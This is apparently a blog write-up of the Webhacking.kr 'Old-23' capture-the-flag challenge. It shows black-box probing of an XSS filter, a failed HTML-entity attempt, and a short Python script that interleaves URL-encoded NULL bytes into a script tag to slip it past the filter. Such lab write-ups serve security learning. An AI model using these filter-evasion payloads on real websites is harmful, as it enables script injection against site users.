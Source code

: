 ```yaml
---
layout: post
title: "[Webhacking.kr] Old-23 writeup"
categories: hacking writeup web
---
```


## Introduction

Link: https://webhacking.kr/challenge/bonus-3/

This is a straightforward XSS challenge. However, this one is a blackbox: You can not see anything in the code.

## Initial testing

I did a look around the prompt to understand how the filter works.

| Test       | Result     |
| ---------- | ---------- |
| `<script>` | no hack 🚫 |
| `<sc`      | no hack 🚫 |
| `<c`       | worked ✅  |
| `<!--`     | worked ✅  |
| `1234`     | worked ✅  |
| `abc`      | no hack 🚫 |
| `a b c`    | worked ✅  |
| `<<<`      | worked ✅  |

So far, we know that it doesn't accept a sequence of characters. How about we escape the characters using HTML escape code?
Let's try
`&#60&#115&#99&#114&#105&#112&#116&#62&#97&#108&#101&#114&#116&#40&#49&#41&#59&#60&#47&#115&#99&#114&#105&#112&#116&#62`

![Test1](/assets/images/old-23/test1.png)

Yay, we did it! Except, that was just text. And of course, the script was not executed.

Let's look at the inspection to see why

![Test1 Inspection](/assets/images/old-23/test1_inspect.png)

I was naive enough, although Firefox rendered the whole thing in text, those characters were escaped. We can make sure by using curl

![Test1 Curl](/assets/images/old-23/test1_curl.png)

## NULL byte in the URL

I did a little more research on the URL escape since the text we enter in the prompt is a parameter in the URL.
I wrote a small script

```python
script = '<script>alert(1);</script>'
print('%00'.join(script))
```

And we'll use it on the URL, because if we use it in the prompt, the NULL bytes will get escaped again and it will not work.

![Pwned](/assets/images/old-23/pwned.png)

And the challenge is solved!
